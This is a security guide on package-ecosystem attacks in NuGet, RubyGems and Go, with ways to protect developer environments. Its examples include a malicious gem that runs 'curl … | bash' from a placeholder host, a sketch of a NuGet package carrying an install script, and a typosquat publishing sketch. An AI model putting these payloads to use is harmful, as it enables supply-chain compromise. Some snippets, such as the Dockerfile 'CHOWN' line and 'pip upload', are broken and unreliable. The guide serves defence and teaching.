

# Other Package Ecosystems & Developer Protection

<div class="secure-component">
<span class="security-badge badge-info">COMPREHENSIVE COVERAGE</span>

This section covers additional major package ecosystems (NuGet, RubyGems, Go Modules, and others) along with comprehensive strategies for protecting developer environments from package-based attacks.
</div>

## NuGet (.NET) Ecosystem Security

### Overview

NuGet serves the .NET ecosystem with unique characteristics:

- **350,000+ packages** with strong Microsoft ecosystem integration
- **~4 billion downloads** per month
- **Strong code signing** integration with Windows certificate stores
- **Package validation** with Microsoft signing requirements
- **MSBuild integration** creating build-time attack vectors

### Security Features

```xml
<!-- Package validation in .csproj -->
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <TargetFramework>net7.0</TargetFramework>
    <TreatWarningsAsErrors>true</TreatWarningsAsErrors>
    <WarningsAsErrors />
    <WarningsNotAsErrors>NU1603</WarningsNotAsErrors>
    <!-- Enable package vulnerability auditing -->
    <NuGetAudit>true</NuGetAudit>
  </PropertyGroup>
  
  <ItemGroup>
    <!-- Pin package versions -->
    <PackageReference Include="Newtonsoft.Json" Version="13.0.3" />
    <PackageReference Include="Microsoft.AspNetCore.App" />
  </ItemGroup>
</Project>
```

### NuGet-Specific Vulnerabilities

1. **MSBuild Target Injection**: Malicious packages can modify build process
2. **Package Restore Attacks**: Dependency confusion during restore
3. **PowerShell Script Execution**: Install scripts with elevated permissions

```xml
<!-- Example malicious NuGet package structure -->
<package>
  <metadata>
    <id>Malicious.Package</id>
    <version>1.0.0</version>
  </metadata>
  <files>
    <!-- Malicious MSBuild targets -->
    <file src="build\Malicious.Package.targets" target="build\" />
    <!-- PowerShell install script -->
    <file src="tools\install.ps1" target="tools\" />
  </files>
</package>
```

## RubyGems Ecosystem Security

### Overview

RubyGems serves the Ruby community with distinctive characteristics:

- **175,000+ packages** (gems) with Ruby community focus
- **~4 billion downloads** per month
- **Flexible gem structure** allowing arbitrary code execution
- **Bundler integration** for dependency management
- **Community-driven security** with active maintainer involvement

### Security Features and Challenges

```ruby
# Gemfile with security considerations
source 'https://rubygems.org'

ruby '3.2.0'

# Pin specific versions
gem 'rails', '~> 7.0.4'
gem 'devise', '~> 4.9.0'

# Development gems
group :development, :test do
  gem 'rspec-rails'
  gem 'bundler-audit' # Security auditing
end

# Production-only gems
group :production do
  gem 'pg'
end
```

### RubyGems Security Tools

```bash
# Install security auditing tools
gem install bundler-audit
gem install ruby_audit

# Run security audit
bundle audit check --update

# Check for vulnerable gem versions
ruby-audit check

# Update gems securely
bundle update --conservative
```

### Ruby-Specific Attack Vectors

1. **Gem Installation Hooks**: Code execution during gem installation
2. **Native Extension Compilation**: C extensions with system access
3. **Version Manipulation**: Exploiting version comparison logic

```ruby
# Example malicious gem structure
# In gemspec file
Gem::Specification.new do |spec|
  spec.name = "malicious-gem"
  spec.version = "1.0.0"
  
  # Post-install hook executes arbitrary code
  spec.post_install_message = "Installing..."
  
  # Extensions can compile malicious code
  spec.extensions = ["ext/malicious/extconf.rb"]
end

# In lib/malicious.rb
class Malicious
  def initialize
    # Malicious code executes when gem is loaded
    system("curl -s malicious-site.com/script.sh | bash")
  end
end
```

## Go Modules Ecosystem Security

### Overview

Go modules represent a newer approach to package management:

- **Proxy-based distribution** with go.sum integrity verification
- **Cryptographic verification** through module authentication
- **Minimal runtime** reducing attack surface
- **Built-in security features** including checksum verification

### Go Security Features

```go
// go.mod with version pinning
module myapp

go 1.21

require (
    github.com/gin-gonic/gin v1.9.1
    github.com/stretchr/testify v1.8.4
)

// Indirect dependencies tracked
require (
    github.com/bytedance/sonic v1.9.1 // indirect
    github.com/chenzhuoyu/base64x v0.0.0-20221115062448-fe3a3abad311 // indirect
)
```

```bash
# Go security commands
go mod verify          # Verify checksums
go mod download        # Download dependencies
go mod tidy           # Clean up dependencies

# Check for vulnerabilities
go install golang.org/x/vuln/cmd/govulncheck@latest
govulncheck ./...

# Generate SBOM
go mod download -json all | jq '.' > sbom.json
```

### Go-Specific Security Considerations

1. **Module Proxy Trust**: Dependency on proxy infrastructure
2. **Checksum Database**: Reliance on sum.golang.org
3. **Version Immutability**: Strong guarantees against modification
4. **Minimal Dependencies**: Smaller attack surface

## Cross-Ecosystem Attack Patterns

### 1. Common Attack Techniques

<div class="security-table">
<table>
<thead>
<tr>
<th>Attack Type</th>
<th>npm</th>
<th>PyPI</th>
<th>Maven</th>
<th>NuGet</th>
<th>RubyGems</th>
<th>Go</th>
</tr>
</thead>
<tbody>
<tr>
<td><strong>Typosquatting</strong></td>
<td>✅ Common</td>
<td>✅ Common</td>
<td>🔶 Moderate</td>
<td>🔶 Moderate</td>
<td>✅ Common</td>
<td>❌ Rare</td>
</tr>
<tr>
<td><strong>Dependency Confusion</strong></td>
<td>✅ High Risk</td>
<td>✅ High Risk</td>
<td>✅ High Risk</td>
<td>✅ High Risk</td>
<td>🔶 Moderate</td>
<td>❌ Mitigated</td>
</tr>
<tr>
<td><strong>Install Script Abuse</strong></td>
<td>✅ Critical</td>
<td>✅ Critical</td>
<td>🔶 Plugins</td>
<td>✅ MSBuild</td>
<td>✅ Critical</td>
<td>❌ None</td>
</tr>
<tr>
<td><strong>Account Takeover</strong></td>
<td>✅ High Impact</td>
<td>🔶 2FA Required</td>
<td>🔶 PGP Signed</td>
<td>🔶 Code Signed</td>
<td>✅ High Impact</td>
<td>🔶 Proxy Protected</td>
</tr>
</tbody>
</table>
</div>

### 2. Multi-Ecosystem Attacks

Sophisticated attackers target multiple ecosystems simultaneously:

```bash
# Example multi-ecosystem attack campaign
# 1. Register similar package names across ecosystems
npm publish malicious-utility
pip upload malicious-utility  
gem push malicious-utility
nuget push malicious-utility

# 2. Use consistent malicious payload
# 3. Target polyglot development environments
# 4. Establish persistence across multiple language runtimes
```

## Developer Environment Protection Strategies

### 1. Isolation and Sandboxing

#### Container-Based Development

```dockerfile
# Secure development container
FROM node:18-alpine

# Create non-root user
RUN addgroup -g 1001 -S nodejs && \
    adduser -S nextjs -u 1001

# Install security tools
RUN npm install -g npm-audit-resolver @cyclonedx/cyclonedx-npm

# Set up workspace with limited permissions
WORKDIR /app
CHOWN nextjs:nodejs /app

# Switch to non-root user
USER nextjs

# Health check for container security
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD node healthcheck.js

CMD ["node", "server.js"]
```

#### Virtual Machine Isolation

```bash
#!/bin/bash
# Developer VM setup script

# Create isolated development VM
multipass launch --name dev-env --cpus 4 --mem 8G --disk 50G

# Configure security settings
multipass exec dev-env -- sudo apt update
multipass exec dev-env -- sudo apt install -y fail2ban ufw

# Set up firewall
multipass exec dev-env -- sudo ufw default deny incoming
multipass exec dev-env -- sudo ufw default allow outgoing
multipass exec dev-env -- sudo ufw allow ssh
multipass exec dev-env -- sudo ufw enable

# Install development tools in isolated environment
multipass exec dev-env -- curl -fsSL https://get.docker.com -o get-docker.sh
multipass exec dev-env -- sh get-docker.sh

echo "Development environment ready. Connect with:"
echo "multipass shell dev-env"
```

### 2. Network Security Controls

#### DNS Filtering and Monitoring

```bash
# Configure DNS filtering for package security
# /etc/systemd/resolved.conf
[Resolve]
DNS=1.1.1.2#security.cloudflare-dns.com
FallbackDNS=1.0.0.2#security.cloudflare-dns.com
DNSSEC=yes
DNSOverTLS=yes

# Monitor package manager traffic
# Using tcpdump to monitor npm traffic
sudo tcpdump -i any -n 'host registry.npmjs.org or host registry.yarnpkg.com'

# Log all package installations
alias npm='(echo "$(date): npm $*" >> ~/.npm_history.log) && command npm'
alias pip='(echo "$(date): pip $*" >> ~/.pip_history.log) && command pip'
```

#### Network Segmentation

```yaml
# Kubernetes network policy for development pods
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: dev-pod-network-policy
  namespace: development
spec:
  podSelector:
    matchLabels:
      app: development
  policyTypes:
  - Egress
  - Ingress
  egress:
  - to:
    - namespaceSelector:
        matchLabels:
          name: package-registries
    ports:
    - protocol: TCP
      port: 443
  - to: []
    ports:
    - protocol: TCP
      port: 53
    - protocol: UDP
      port: 53
  ingress:
  - from:
    - namespaceSelector:
        matchLabels:
          name: development
```

### 3. Behavioral Analysis and Monitoring

#### Package Installation Monitoring

```python
#!/usr/bin/env python3
"""
Multi-ecosystem package installation monitor
"""

import os
import subprocess
import json
import logging
from datetime import datetime
from pathlib import Path

class PackageMonitor:
    def __init__(self):
        self.log_file = Path.home() / ".package_monitor.log"
        self.setup_logging()
        
    def setup_logging(self):
        logging.basicConfig(
            filename=self.log_file,
            level=logging.INFO,
            format='%(asctime)s - %(levelname)s - %(message)s'
        )
    
    def monitor_npm_install(self, command_args):
        """Monitor npm install commands"""
        packages = self.extract_npm_packages(command_args)
        for package in packages:
            self.analyze_package_risk('npm', package)
            
    def monitor_pip_install(self, command_args):
        """Monitor pip install commands"""
        packages = self.extract_pip_packages(command_args)
        for package in packages:
            self.analyze_package_risk('pip', package)
    
    def analyze_package_risk(self, ecosystem, package_name):
        """Analyze package for risk indicators"""
        risk_score = 0
        risk_factors = []
        
        # Check package age
        age_days = self.get_package_age(ecosystem, package_name)
        if age_days < 30:
            risk_score += 3
            risk_factors.append("Very new package")
        elif age_days < 90:
            risk_score += 1
            risk_factors.append("Relatively new package")
        
        # Check download stats
        downloads = self.get_download_stats(ecosystem, package_name)
        if downloads < 1000:
            risk_score += 3
            risk_factors.append("Low download count")
        elif downloads < 10000:
            risk_score += 1
            risk_factors.append("Moderate download count")
        
        # Check for typosquatting
        if self.check_typosquatting(package_name):
            risk_score += 5
            risk_factors.append("Potential typosquatting")
        
        # Log risk assessment
        logging.info(f"Package: {ecosystem}/{package_name}, Risk Score: {risk_score}, Factors: {risk_factors}")
        
        # Alert on high risk
        if risk_score >= 5:
            self.send_alert(ecosystem, package_name, risk_score, risk_factors)
    
    def send_alert(self, ecosystem, package_name, risk_score, factors):
        """Send alert for high-risk packages"""
        alert_msg = f"""
        🚨 HIGH RISK PACKAGE DETECTED 🚨
        Ecosystem: {ecosystem}
        Package: {package_name}
        Risk Score: {risk_score}/10
        Risk Factors: {', '.join(factors)}
        Time: {datetime.now()}
        
        Please review this package before proceeding with installation.
        """
        
        # Log to console
        print(alert_msg)
        
        # Could also send to Slack, email, etc.
        self.log_to_security_system(alert_msg)

# Usage as command wrapper
monitor = PackageMonitor()

# Wrap package managers
def secure_npm(*args):
    monitor.monitor_npm_install(args)
    return subprocess.run(['npm'] + list(args))

def secure_pip(*args):
    monitor.monitor_pip_install(args)
    return subprocess.run(['pip'] + list(args))
```

### 4. Code Analysis and Verification

#### Pre-Installation Package Analysis

```bash
#!/bin/bash
# Package security analysis script

analyze_package() {
    local ecosystem=$1
    local package_name=$2
    local version=$3
    
    echo "🔍 Analyzing $ecosystem package: $package_name@$version"
    
    case $ecosystem in
        "npm")
            # Download and analyze npm package
            npm pack $package_name@$version
            tar -tzf $package_name-$version.tgz | head -20
            
            # Check for suspicious files
            tar -tzf $package_name-$version.tgz | grep -E '\.(exe|bat|ps1|sh)$'
            
            # Analyze package.json
            tar -xzf $package_name-$version.tgz package/package.json
            jq '.scripts' package/package.json
            ;;
            
        "pip")
            # Download and analyze Python package
            pip download $package_name==$version --no-deps
            
            # Check for setup.py
            if command -v unzip &> /dev/null; then
                unzip -l $package_name-$version*.whl | grep setup.py
            fi
            ;;
            
        "gem")
            # Download and analyze Ruby gem
            gem fetch $package_name --version $version
            gem contents $package_name-$version.gem | head -20
            ;;
    esac
    
    echo "Analysis complete for $package_name"
}

# Usage
analyze_package npm lodash 4.17.21
analyze_package pip requests 2.31.0
analyze_package gem rails 7.0.4
```

### 5. Incident Response for Package Compromise

#### Detection and Response Workflow



#### Automated Response Scripts

```python
#!/usr/bin/env python3
"""
Automated package compromise response system
"""

import json
import subprocess
import requests
from datetime import datetime
import smtplib
from email.mime.text import MIMEText

class PackageIncidentResponse:
    def __init__(self):
        self.compromised_packages = set()
        self.affected_projects = []
        
    def detect_compromise(self, ecosystem, package_name, malicious_versions):
        """Detect if compromised package is in use"""
        print(f"🚨 Checking for compromise: {ecosystem}/{package_name}")
        
        # Add to compromised list
        self.compromised_packages.add(f"{ecosystem}/{package_name}")
        
        # Scan all projects
        self.scan_projects(ecosystem, package_name, malicious_versions)
        
        if self.affected_projects:
            self.execute_response()
    
    def scan_projects(self, ecosystem, package_name, malicious_versions):
        """Scan all projects for compromised package"""
        projects_dir = "/path/to/projects"
        
        for project in os.listdir(projects_dir):
            project_path = os.path.join(projects_dir, project)
            
            if ecosystem == "npm":
                self.scan_npm_project(project_path, package_name, malicious_versions)
            elif ecosystem == "pip":
                self.scan_python_project(project_path, package_name, malicious_versions)
            # Add other ecosystems...
    
    def execute_response(self):
        """Execute incident response procedures"""
        # 1. Notify security team
        self.notify_security_team()
        
        # 2. Block access to compromised packages
        self.block_package_access()
        
        # 3. Generate remediation plan
        self.generate_remediation_plan()
        
        # 4. Execute automated fixes where safe
        self.execute_safe_fixes()
    
    def notify_security_team(self):
        """Send notifications to security team"""
        subject = f"Package Compromise Detected - {len(self.affected_projects)} projects affected"
        body = f"""
        Compromised packages detected:
        {list(self.compromised_packages)}
        
        Affected projects:
        {self.affected_projects}
        
        Immediate action required.
        """
        
        # Send email, Slack notification, etc.
        self.send_notification(subject, body)
    
    def block_package_access(self):
        """Block access to compromised packages"""
        # Update firewall rules, proxy configurations, etc.
        for package in self.compromised_packages:
            print(f"Blocking access to {package}")
            # Implementation depends on infrastructure
    
    def generate_remediation_plan(self):
        """Generate step-by-step remediation plan"""
        plan = {
            "affected_projects": self.affected_projects,
            "recommended_actions": [
                "Update to safe version",
                "Review system for indicators of compromise",
                "Rotate any exposed credentials",
                "Monitor for unusual activity"
            ],
            "timeline": "Execute within 4 hours"
        }
        
        with open("incident_response_plan.json", "w") as f:
            json.dump(plan, f, indent=2)

# Usage example
response_system = PackageIncidentResponse()
response_system.detect_compromise("npm", "eslint-config-prettier", ["9.1.0"])
```

## Best Practices Summary

### Universal Package Security Principles

1. **Defense in Depth**: Multiple layers of security controls
2. **Zero Trust**: Verify all packages and sources
3. **Isolation**: Separate development and production environments
4. **Monitoring**: Continuous observation of package usage
5. **Incident Response**: Prepared procedures for compromise

### Ecosystem-Specific Recommendations

<div class="security-table">
<table>
<thead>
<tr>
<th>Ecosystem</th>
<th>Primary Risks</th>
<th>Key Mitigations</th>
</tr>
</thead>
<tbody>
<tr>
<td><strong>npm</strong></td>
<td>Install scripts, token compromise</td>
<td>Disable scripts, use lock files, monitor maintainers</td>
</tr>
<tr>
<td><strong>PyPI</strong></td>
<td>Setup.py execution, typosquatting</td>
<td>Use wheels, trusted publishing, verify attestations</td>
</tr>
<tr>
<td><strong>Maven</strong></td>
<td>Plugin execution, enterprise targets</td>
<td>Repository managers, dependency verification, PGP checks</td>
</tr>
<tr>
<td><strong>NuGet</strong></td>
<td>MSBuild injection, PowerShell scripts</td>
<td>Code signing verification, package validation</td>
</tr>
<tr>
<td><strong>RubyGems</strong></td>
<td>Installation hooks, native extensions</td>
<td>Bundler audit, gem verification, sandbox builds</td>
</tr>
<tr>
<td><strong>Go</strong></td>
<td>Proxy trust, checksum verification</td>
<td>Module verification, GOPROXY configuration</td>
</tr>
</tbody>
</table>
</div>

## Conclusion

Package ecosystem security requires a comprehensive, multi-layered approach that considers:

1. **Ecosystem-specific characteristics** and attack vectors
2. **Developer environment protection** through isolation and monitoring
3. **Automated detection and response** capabilities
4. **Cross-ecosystem attack patterns** and defenses
5. **Incident response procedures** for package compromise

<div class="secure-component">
<span class="security-badge badge-critical">CRITICAL TAKEAWAY</span>

As demonstrated by recent high-profile attacks, package ecosystems represent a critical attack surface. Organizations must treat package security as a fundamental requirement, not an afterthought. Implement comprehensive controls across all ecosystems used in your environment.
</div>

The scale and impact of package ecosystem attacks will continue to grow. Proactive security measures, including the strategies outlined in this documentation, are essential for protecting both individual developers and organizational infrastructure from supply chain attacks.